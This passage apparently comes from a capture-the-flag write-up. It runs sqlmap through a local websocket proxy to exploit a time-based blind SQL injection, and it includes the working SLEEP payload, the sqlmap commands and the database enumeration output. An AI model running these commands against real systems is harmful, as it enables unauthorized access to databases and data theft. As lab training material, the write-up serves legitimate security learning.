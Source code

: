 ```python
	#data = '{"employeeID":"%s"}' % message
    data = '{"id":"%s"}' % message
```

Execute the script :

```shell
python3 ./websocket_proxy.py
```

Result:

```text
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

So now we can execute sqlmap and use that proxy, supposing the DBMS, and the parameter name:

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id
```

Result:

```text
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[INFO] target URL appears to be UNION injectable with 3 columns
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8775 FROM (SELECT(SLEEP(5)))cQdK)
---
[INFO] the back-end DBMS is MySQL
```

So we have a SQL injection poiont here.

We can now enumerate the databases :

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id --dbs
```

Result:

```text
...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```
